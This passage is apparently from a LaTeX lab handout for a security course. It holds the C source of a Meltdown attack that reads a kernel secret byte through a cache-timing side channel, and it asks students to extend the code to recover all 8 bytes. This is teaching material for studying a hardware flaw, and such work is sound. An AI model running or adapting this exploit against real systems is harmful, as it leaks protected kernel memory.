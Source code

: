 \begin{lstlisting}[caption=\texttt{MeltdownAttack.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }

  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
    ret = pread(fd, NULL, 0, 0);
    if (ret < 0) {
      perror("pread");
      break;
    }
	
    // Flush the probing array
    for (j = 0; j < 256; j++) 
        _mm_clflush(&array[j * 4096 + DELTA]);

    if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xfb61b000); }

    reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
    if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return 0;
}
\end{lstlisting}


Please compile and run the code, and explain your observations. 
The code above only steals a one-byte secret from the kernel. The actual
secret placed in the kernel module has 8 bytes. You need to modify the above code
to get all the 8 bytes of the secret.


\section{Submission}

\seedsubmission





\def\baselinestretch{1}





